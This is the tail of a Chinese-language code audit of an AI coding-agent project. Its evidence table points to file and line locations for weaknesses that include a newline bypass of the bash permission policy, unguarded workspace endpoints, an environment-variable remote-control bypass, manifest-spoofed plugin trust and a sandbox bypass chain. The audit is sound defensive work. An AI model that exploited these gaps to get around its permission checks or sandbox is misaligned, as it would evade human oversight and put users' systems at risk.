12. 全仓：给"turn/round、run/submit、v2/v3 回滚"建立统一术语表并迁移注释与命名。

---

## 十一、证据索引（抽查核实过的关键行）

| 论断 | 证据 | 核实方式 |
|------|------|----------|
| Scheduler 生产未接线 | `engine/scheduler.py` 中 run_task_batch/prepare_for_resume，grep 命中仅 scheduler+tests | Grep 全仓 |
| incomplete_tool_uses 只写不读 | 命中仅 `engine/turn_snapshot.py`、`engine/turn_runner.py` | Grep 全仓 |
| WriteStore 不进 rewind | `record_file_mutation` 调用者=rewind/* + 三个文件工具 | Grep 全仓 |
| register 清 schema 缓存 | `tools/tool_registry.py:104` | 直读 |
| list_changed 全代替换 | `extension/mcp_client.py:1458-1467` | 直读 |
| T_now 预算/硬顶常量 | `prompt/pre_llm_inject.py:253/700/714`（22/6000/6000） | 直读 |
| plan.py=人工审批暂存 | `engine/plan.py:1-71` PendingPlan/approve | 直读 |
| shadow_git 在产线 | `engine/workspace_revision.py:24`、`workspace_restore.py:55`、`rewind/service.py:608-626/1285` | Grep+直读 |
| workspace.py 门禁覆盖率 | 约 20 端点仅 `:61`/`:450` 两处 `require_loopback`；PUT/DELETE file、POST /v1/workspace 无门禁 | Grep+直读（二轮） |
| ENV_FALLBACK_STATUS 实为结构类 4xx | `prompt/t_now_strategy.py:75` = {400,404,405,413,415,422}（修正一轮"402/429/5xx 回退"误记） | 直读（二轮） |
| rewind v3 在线 / v2 降级端点 | `server/app.py:278`、`routers/rewind.py:1-9/59`、`slash/dispatch.py:603` | 代理精读+复核（二轮） |
| token 计量口径 | `memory/token.py:11-15` = ceil(utf-8 字节/4) | 直读（二轮） |
| Tauri CSP frame-src 全开 | `gui/src-tauri/tauri.conf.json:32` 含 `http: https: data: blob:` | Grep 直读（二轮） |
| bash 换行绕过判定链 | `permissions/bash_policy.py:532`(_COMPOSITE_RX 无 \n)、`:318`(_tokenize 按空格) | 代理精读（二轮） |
| Bearer=供应商 key 无服务端凭据 | `server/deps.py:63 _extract_bearer` → `routers/chat.py:632` 直接作模型 api_key | 直读（三轮） |
| record_transcript 无 fsync | `session/record_transcript.py:148/270` 仅 `f.flush()`，全文件无 fsync | Grep 直读（三轮） |
| DeepSeek 客户端零账本引用 | `model/deepseek.py` grep ledger/record_usage 无命中；账本写入点唯一 `openai_compat.py:203` | Grep 直读（三轮） |
| spill 在用非死代码 | `tools/tool_registry.py:83,178` 输出预算 16000 → `tools/spill.py` O_EXCL+0600+7 天清理 | 代理精读（三轮） |
| 蒸馏独立成 note/无淘汰 | `memory/nightshift.py:524-533/541` | 代理精读（三轮） |
| NotebookEdit 缺 write_scope 兜底 | `notebook_edit_tool.py` grep write_scope 0 命中 vs `file_edit_tool.py:152-154` 有硬拒 | Grep 直读（四轮） |
| local_gate 白名单含 testclient + env 一键绕过 | `server/local_gate.py:12`（testclient）、`:23`（XEYO_ALLOW_REMOTE_CONTROL） | Grep 直读（四轮） |
| Tauri 端口劫持面与 taskkill | `gui/src-tauri/src/lib.rs:580`（wait_health 仅查 "200"/"ok" 字符串）、`:201/217`（taskkill）、`:428-438`（abs_path 无边界） | Grep 直读（四轮） |
| 提交门不存在 / xfail=0 | `.git/hooks` 仅 sample、无 .husky；python/tests grep xfail 零命中；`run-pytest-p0a.bat:12-13` deselect t9 | 代理精读（四轮） |
| 主会话写工具也走 WriteStore（修正一轮误判） | `server/session_pool.py:500` `_inject_subagent_write_store` 注入 Write/Edit/NotebookEdit，agent_id="main" | 代理精读（四轮） |
| Job Object 内存限额真实存在 | `tools/bash_tool/win_job.py:163-171` PROCESS_MEMORY\|JOB_MEMORY\|KILL_ON_JOB_CLOSE，默认 512MiB | 直读（五轮） |
| 插件信任被 manifest 自声明劫持 | `extension/loader.py:92` `if p.manifest.source_type == "local"` 跳过信任检查 | 直读（五轮） |
| 沙箱修正/绕过链 | `runner.py:265-271`（晋升解绑 abort）、`background.py:73-99`（bg 日志直写）、`BrowserPreviewPanel.tsx:344-347`（iframe 无校验+allow-same-origin） | 代理精读（五轮） |
| evals 跨模型混染 | `evals/bfcl_lite.py:393-397` 汇总合并 items.jsonl 全部历史行、无 model 过滤 | 直读（六轮） |
| todo 恢复优先级含混 | `tools/todo_write_tool/restore.py:82-102`：被打断的最新 input 之后仍继续找旧 result 并优先返回 | 直读（六轮，措辞按"语义含混"而非确定 bug） |
| prompt 文本无漂移 | 22 个 prompt.py 抽查与实现一致；bash prompt 未声称沙箱能力 | 代理精读（六轮） |

> 注（已定论）：在线主路径为 v3 `RewindHotpath`（前端 `/sessions/{sid}/rewind` + slash `/revert`），`RollbackService`（v2）保留为 `/rollback/*` 测试/降级端点，两者内存对齐契约不同——详见 §5.1。

---

*本文件由代码审计生成，六轮累计 27 个精读代理 + 每轮关键论断 Grep/直读复核；覆盖引擎七层全模块 + server/model/channels/壳层/tools 全家族（含 prompt 文本与执行器子模块）/评测与模拟器/CLI/Tauri Rust/测试执法/GUI 组件。未读 docs/，未引用任何设计文档口径。*
